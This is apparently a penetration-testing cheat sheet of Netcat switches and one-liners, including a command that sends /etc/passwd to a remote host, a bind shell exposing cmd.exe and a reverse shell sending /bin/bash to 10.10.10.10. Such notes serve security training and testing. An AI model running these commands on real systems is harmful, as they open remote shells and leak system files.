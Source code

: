 # Tools and Reporting
## Tools
### Netcat
#### Switches
|-n| Dont do DNS resolution
|-v| Verbose Output
|-l| Listen
|-p| Port 
#### Connecting to a TCP/UDP port
```bash
nc -nv 10.10.10.10 4444
```
#### Listening on a TCP/UDP port
```bash
nc -nvlp 4444
```
#### Transfering files with Netcat - Download
```bash
nc -nvlp 4444 > download.exe
```
#### Transfering files with Netcat - Upload
```bash
nc -nv 10.10.10.10 4444 < /etc/passwd
```
#### Bind shell with Netcat
```bash
nc -nvlp 4444 -e cmd.exe
```
#### Reverse Shell with Netcat
```bash
nc -nv 10.10.10.10 4444 -e /bin/bash
```